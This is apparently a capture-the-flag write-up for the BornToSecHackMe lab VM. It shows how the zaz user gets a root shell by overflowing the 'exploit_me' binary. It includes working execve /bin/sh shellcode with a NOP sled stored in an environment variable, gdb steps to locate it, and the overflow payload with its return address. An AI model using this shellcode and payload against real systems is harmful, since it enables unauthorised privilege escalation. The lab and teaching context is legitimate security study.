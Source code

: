 # Zaz alternative root shell

This is an alternative way to obtain a root shell from the zaz user.

We will use the buffer overflow again. This time we are not trying to access the `/bin/sh` address. Instead we will use a shellcode to open the root shell.

We will even work our way as if there were canary protection against stack address modifications.

First let's inject our shellcode inside an environement variable, this way we will be able to point our program to this variable later, instead of directly injecting the shellcode in the buffer overflow, and modifying the stack.

```
export SHELLCODE=`python -c 'print "\x90" * 900 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"'`
```

Our shellcode also has 900 `\x90` inside it, called "nop", it will help us for "aiming" at the right address and avoid memory padding problems. Once we manage to point inside the Nops, the programm will jump from nop to nop until it find the beginning of our shellcode.

Let's find the address of our "SHELLCODE" environment variable.

```
gdb exploit_me
(gdb) b *main
(gdb) r
(gdb) x/s *((char **)environ+0)
0xbffff56f: "SHELLCODE=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220"...     
```

This will show us the most recent environment variable, which is SHELLCODE. Now let's an address in the middle of the nopsled:

```
(gdb) x/150xg 0xbffff56f
0xbffff56f:     0x444f434c4c454853      0x9090909090903d45                                                                                         
0xbffff57f:     0x9090909090909090      0x9090909090909090
0xbffff58f:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff59f:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff5af:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff5bf:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff5cf:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff5df:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff5ef:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff5ff:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff60f:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff61f:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff62f:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff63f:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff64f:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff65f:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff66f:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff67f:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff68f:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff69f:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff6af:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff6bf:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff6cf:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff6df:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff6ef:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff6ff:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff70f:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff71f:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff72f:     0x9090909090909090      0x9090909090909090 
0xbffff73f:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff74f:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff75f:     0x9090909090909090      0x9090909090909090                                                                                        
0xbffff76f:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff77f:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff78f:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff79f:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff7af:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff7bf:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff7cf:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff7df:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff7ef:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff7ff:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff80f:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff81f:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff82f:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff83f:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff84f:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff85f:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff86f:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff87f:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff88f:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff89f:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff8af:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff8bf:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff8cf:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff8df:     0x9090909090909090      0x9090909090909090                                                                                         
0xbffff8ef:     0x9090909090909090      0x1feb909090909090                                                                                         
0xbffff8ff:     0x4688c0310876895e      0xf3890bb00c468907                                                                                        
0xbffff90f:     0x80cd0c568d084e8d      0xe880cd40d889db31                                                                                         
0xbffff91f:     0x6e69622fffffffdc      0x4c4548530068732f                                                                                         
0xbffff92f:     0x622f6e69622f3d4c      0x4d52455400687361
```

Let's pick the address : `0xbffff73f` who is located in the middle of the nopsled. Now we translate for the asm : `\x3f\xf7\xff\xbf`

As explained the writeup2.md, the buffer overflow offset is 140, so we will use that knowledge in our input.
We will make the program to the SHELLCODE variable with the buffer overflow, who will execute our shellcode:

```
./exploit_me $(python -c 'print "i"*140 + "\x3f\xf7\xff\xbf"')
```
zaz@BornToSecHackMe:~$ ./exploit_me $(python -c 'print "i"*140 + "\x3f\xf7\xff\xbf"')                                                              iiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiii?      
# pwd                                                                                                                                              
/home/zaz                                                                                                                                          
# whoami                                                                                                                                     
root                                                                                                                                               
#
```

We are root ! :3 UwU
